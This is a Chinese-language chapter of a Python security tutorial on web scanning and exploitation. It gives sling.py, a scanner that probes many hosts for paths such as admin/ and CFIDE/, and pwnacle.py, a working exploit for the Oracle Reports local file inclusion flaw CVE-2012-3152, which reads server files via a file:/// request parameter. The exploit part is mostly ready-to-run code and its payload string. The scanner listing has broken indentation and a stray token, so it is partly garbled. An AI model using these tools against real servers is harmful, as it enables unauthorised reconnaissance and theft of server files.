 ##Web扫描和利用

本章将会介绍如何使用python去构建一个简单的web扫描器，并且写一个简单的exp。有些时候如果组织会发布出来一些漏洞测试的POC，然后使用者可以使用这些poc去检查自己系统的漏洞，但是在这种情况下，如果是等poc发布出来早以为时已晚!

在[第5章](https://github.com/smartFlash/pySecurity/blob/master/zh-cn/0x5.md)的时候告诉了大家基本的web请求,这一章我们讲两个新的内容:

* 检测特定的服务器列表.
* 利用一个Oracle的本地包含漏洞.

**Web扫描**

下面的这个脚本使用"-i"参数把文件的url连接传递到脚本里面，然后使用"-r"参数指定请求的路径,最好使用"-s"参数去指定检测是否含有CLI漏洞的字符串.

```
$ python sling.py -h
Usage: sling.py -i <file_with URLs> -r  -s [optional]
 
Options:
  -h, --help    show this help message and exit
  -i SERVERS    specify target file with URLs
  -r RESOURCES  specify a file with resources to request
  -s SEARCH     [optional] Specify a search string -s
```

存储url链接列表文件的文本格式应该是这样的——"http://www.google.com" 一行，并且文件请求的路径应该是"request/"每行,例如:
```
reqs:
CFIDE/
admin/
tmp/
```

下面是一个脚本调用的例子但是没有指定检测字符串:

```
$ python sling.py -i URLs -r reqs
[+] URL: http://www.google.com/CFIDE/ [404]
[+] URL: http://www.google.com/admin/ [404]
[+] URL: http://www.google.com/tmp/ [404]
[+] URL: http://www.yahoo.com/CFIDE/ [404]
[+] URL: http://www.facebook.com/CFIDE/ [404]
[+] URL: http://www.facebook.com/admin/ [404]
[+] URL: http://www.facebook.com/tmp/ [404]
```

现在当创建这些请求的时候，你可能想定义一个检测语句以减少误报，例如：你现在请求的路径是"/CFIDE/administrator/enter.cfm",你可以指定检测"CFIDE"的".cfm"页面是否有问题,这样就帮助你减少很多不必要耗费的时间.下面这个例子演示了上面脚本的完整示例:
```
$ python sling.py -i URLs -r reqs -s google
[+] URL: http://www.google.com/CFIDE/ [404] Found: 'google' in ouput
[+] URL: http://www.google.com/admin/ [404] Found: 'google' in ouput
[+] URL: http://www.google.com/tmp/ [404] Found: 'google' in ouput
```

正如你所看到的，这个脚本只会检测带有'google'关键字的url链接并且通过"STDOUT"显示在屏幕上面,这是一个很简单的脚本能够帮你快速的检索一些web资源,更进一步,我们可以指定服务器的版本号和漏洞版本,完整的脚本在教程的最后面:

**自动web攻击应用**

在几个月以前,一个安全研究员[NI@root](http://blog.netinfiltration.com/2013/12/12/hacking-oracle-reports-11g/)　发表过一篇详细的Oracle本地包含漏洞的报告,在报告发布的同时还发布了一个POC检测工具,用来检测你的服务器是否有bug,除此以外就没有任何工具了,该漏洞允许你通过发起以下请求连接来访问服务器的其他文件或目录,使用"file:///".

```
request = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///'
```
下面是调用这个脚本的语法:

```
$ python pwnacle.py <server> <resource>
```

pwnacle.py:

```
#######################################
# pwnacle.py - Exploits CVE-2012-3152 #
# Oracle Local File Inclusion (LFI)   #
#######################################
 
import urllib, sys, ssl, inspect
exec inspect.getsource(ssl.wrap_socket).replace("PROTOCOL_SSLv23","PROTOCOL_SSLv3") in dict(inspect.getmembers(ssl.wrap_socket))["func_globals"]
import socket
 
server = sys.argv[1]      # Assigns first argument given at the CLI to 'server' variable
dir = sys.argv[2]         # Assigns second argument given at the CLI to 'dir' variable
ip = server.split('/')[2] # formats the server by splitting the string based on the '/' which grabs the IP out of 'http://ip/'
req = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///' #request format to exploit the vulnerability
 
print "Sending Request: "+server+req+dir+'"'
 
if 'http://' in server: # 使用 http的urllib模块  --如果是ssl协议就出抛出错误
        try:
                conn = urllib.urlopen(server+req+dir+'"') # 发送请求给服务器
                out = conn.readlines()
                for item in conn:
                        print item.strip()
        except Exception as e:
                print e
 
if 'https://' in server:  # Create web request with ssl module
        try:
                conn = ssl.wrap_socket(socket.create_connection((ip, 443)))
                request = 'GET '+req+dir+'"'+' HTTP/1.1'+'\n'
                request += 'Host: '+ip+'\n'
                request += 'User-Agent: Mozilla/5.0 '+'\n'
                request += 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'+'\n'
                request += 'Accept-Language: en-US,en;q=0.5'+'\n'
                request += 'Accept-Encoding: gzip, deflate'+'\n'
                request += 'Connection: keep-alive'+'\n'
                conn.send(request+'\n')
                print conn.recv()
                print conn.recv(20098)
 
        except Exception as e:
                print e
```

Sling.py:

```
#####################################
# sling.py - checks for resources   #
# Can seach for string in response  #
#####################################
 
from bs4 import BeautifulSoup
import sys, optparse, socket
from urllib import urlopen
 
class Colors:
        RED = '\033[91m'
        GREEN = '\033[92m'
 
def webreq(server, resources):                              # 主机地址,请求路径
        try:
                resource = []
                for item in open(resources, 'r'):           #对请求资源路径循环
                        resource.append(item.strip())            # 把文件内的链接添加到数组里面
                for item in resource:                       #循环数组并且创建请求
                        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.settimeout(5)                     # 设置连接超时时间
                        url = server.strip()+item.strip()        # 格式化请求url链接: "http://www.site.com/CFIDE/administrator/enter.cfm"
                        request = urlopen(url)                   # 创建请求
                        if search:                     # 如果变量 "search"为true (-s)
                                parsed = BeautifulSoup(request.read(), "lxml")  #使用BeautifulSoup解析
                                if search in str(parsed):             # 如果search存在就输出
                                        print Colors.GREEN+"[+] URL: "+url+" ["+str(request.getcode())+"] Found: '"+search+"' in ouput"
                        elif request.getcode() == 404:                # 获取http状态码
                                print Colors.RED+"[+] URL: "+url+" ["+str(request.getcode())+"]"    # 打印url的状态码
               elif request.getcode():
                    print Colors.GREEN+"[+] URL: "+url+" ["+str(request.getcode())+"]"
 
        except:pass
 
def main():
# 创建一个 CLI功能函数并且存储到变量里面
parser = optparse.OptionParser(sys.argv[0]+' '+ \
        '-i <file_with URLs> -r  -s [optional]')
        parser.add_option('-i', dest='servers', type='string', help='specify target file with URLs')
        parser.add_option('-r', dest='resources', type='string', help='specify a file with resources to request')
        parser.add_option('-s', dest='search', type='string', help='[optional] Specify a search string -s ')
        (options, args) = parser.parse_args()
        servers=options.servers
        resources=options.resources
        global search; search=options.search
 
        if (servers == None) and (resources==None):              # 检查 CLI是否有效
                print parser.usage                     # if not print usage
                sys.exit(0)
 
        if servers:
                for server in open(servers, 'r'):           # 循环文件里面的url连接
                        webreq(server, resources)           # 调用 webreq 函数
                        function
 
if __name__ == "__main__":
      main()
      
```
